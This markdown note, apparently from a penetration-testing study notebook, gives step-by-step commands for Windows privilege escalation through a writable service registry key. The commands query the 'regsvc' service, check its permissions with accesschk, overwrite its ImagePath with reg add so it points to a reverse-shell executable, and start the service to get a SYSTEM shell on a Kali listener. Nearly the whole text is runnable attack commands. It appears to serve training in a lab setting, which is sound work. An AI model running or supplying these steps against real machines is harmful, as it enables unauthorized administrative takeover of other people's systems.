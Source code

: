 ```yaml
---
tags:
  - PostExploitation
  - OperatingSystems
---
```


1. Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

```
sc qc regsvc
```

2. Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

3. Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

4. Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start regsvc
```